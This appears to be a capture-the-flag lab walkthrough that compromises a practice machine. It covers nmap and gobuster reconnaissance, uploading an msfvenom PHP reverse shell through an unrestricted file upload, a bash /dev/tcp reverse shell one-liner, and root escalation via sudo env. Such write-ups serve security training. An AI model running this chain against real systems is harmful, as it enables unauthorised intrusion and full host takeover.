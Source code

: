 
![Pasted image 20250205134718](https://github.com/user-attachments/assets/c559485b-954b-4aaa-b2c9-78db12544ae2)

We test the connection with the victim machine

```bash
ping -c 1 172.17.0.2
```
![image](https://github.com/user-attachments/assets/ca42314b-8c8c-4636-8527-5ec06a9783e6)

    ttl =64 ==> linux OS

As the victim machine is within reach, we will send a request for a response with the ports that are open.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![image](https://github.com/user-attachments/assets/cb381a7f-8e0f-4e96-83b5-09b4d86167f5)

    -oG AllPorts = save the output in the AllPorts file.

Now we launch a port scan

```bash
nmap -sCV -p80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/be9abb3a-7a49-42e6-94d0-7993b2212504)

With this we only conclude that our attack will focus only on port 80 which is the web page, so we will analyze it.

![image](https://github.com/user-attachments/assets/d60cf894-e4d3-41c4-be9a-1bb7dac9ae1c)

It is a simple website to upload files and store them so we will upload test files to see what formats it accepts.

![image](https://github.com/user-attachments/assets/11ec69e4-ae17-42ea-992f-578f6ac82d21)
![image](https://github.com/user-attachments/assets/6fc481b1-b4d8-40fe-a6c6-b72f6366251f)
![image](https://github.com/user-attachments/assets/bb387ee1-c8a5-4c22-9d4d-53a600cb5005)
![image](https://github.com/user-attachments/assets/fdcaa1af-ce50-4426-82a0-024d6d5ffbdd)

We have managed to upload the files but we do not know where they are so we will apply fuzzing to discover new directories.
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/4cb06ba9-d0a3-44d3-8c88-542e7cafb43e)
![image](https://github.com/user-attachments/assets/b99a440d-9023-4202-9584-f063d335b13a)

As we can see we find the destination where our files are stored, so if we can upload a malicious file to get a revershell we could have access to the machine.
```bash
msfvenom -p php/reverse_php LHOST=192.168.1.228=443 -f raw >ARCHIVO_NEW.php
```
![image](https://github.com/user-attachments/assets/7492d350-4877-40bd-a8f8-109315f00545)
![image](https://github.com/user-attachments/assets/c313d3ae-14aa-4676-8aca-9f3daedcb7fd)

We will upload our malicious file

![image](https://github.com/user-attachments/assets/76debd5b-3d09-4248-b8be-841cb1454b39)
![image](https://github.com/user-attachments/assets/608e6707-f2fd-49b9-a47e-3f74d27c12b6)

we go into listening mode
```bash
nc -nlvp 443
```

![image](https://github.com/user-attachments/assets/8a99c7f9-9376-45f2-9c6a-dba95150719b)

we open our malicious file

![image](https://github.com/user-attachments/assets/1b72181e-44c5-4d1a-bf28-54c93568d82c)

we have connectionn!!!

![image](https://github.com/user-attachments/assets/03b641b6-97cd-4fc6-96db-941fd855c6ec)

To stabilize the connection we will send the traffic to another of our ports.
```bash
nc nlvp 444
```
![image](https://github.com/user-attachments/assets/8ef08de8-fa7f-4353-b569-5468cebabdaf)


```bash
bash -c "sh -i >& /dev/tcp/192.168.1.228/444 0>&1"
```
![image](https://github.com/user-attachments/assets/d671a70c-f134-40f5-b447-2fe1407e95d4)

We already have a new connection

![image](https://github.com/user-attachments/assets/ccc3cd25-5388-4e40-b689-58111ec9aa1c)

now we will make a treatment of the tty

```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
Finally we have a treated and stabilized tty

![image](https://github.com/user-attachments/assets/7618d11b-74e2-4a92-b1b8-c845616ac316)

Now we will escalate privileges

```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/89003549-6cc4-405f-9eb1-0aec574ae83c)
![image](https://github.com/user-attachments/assets/f8135744-7786-4d69-876f-bcc989e65687)

```bash
sudo env /bin/sh
```
![image](https://github.com/user-attachments/assets/6d04adb6-8c59-495c-a212-fcac90a68b28)





